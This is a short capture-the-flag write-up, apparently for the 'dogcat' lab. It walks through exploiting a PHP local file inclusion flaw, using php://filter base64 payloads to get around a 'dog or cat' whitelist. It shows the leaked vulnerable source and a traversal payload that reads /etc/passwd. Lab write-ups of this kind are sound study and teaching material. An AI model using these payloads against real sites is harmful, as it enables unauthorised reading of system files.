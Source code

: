 # dogcat

1. Recon reveals 22 and 80.
2. Going to the site (after running a dirb) reveals a simple site where you can view dog or cat images, via a query string `?view=`. Obvious LFI challenge
3. `php://filter/dog/convert.base64-encode/resource=dog` gets the base64 encoding of the dog and cat pages, which select a random image. Unfortunately, there is a whitelist: if dog or cat are not in the view url, it rejects it with 'only dogs or cats allowed'.
4. After a lot of messing about, I found this works (I don't know why. PHP ¯\_(ツ)_/¯): `http://10.10.177.45/?view=php://filter/dog/convert.base64-encode/resource=index`. It returns an error and the base64 of index :D

    This revealed that index is:

    ```php
    <?php
        function containsStr($str, $substr) {
            return strpos($str, $substr) !== false;
        }
        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
        if(isset($_GET['view'])) {
            if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                echo 'Here you go!';
                include $_GET['view'] . $ext;
            } else {
                echo 'Sorry, only dogs or cats are allowed.';
            }
        }
    ?>
    ```

    Of note, I can specify the extension. So for example this works and gets me the passwd file: `?view=php://filter/dog/convert.base64-encode/resource=../../../../etc/passwd&ext=`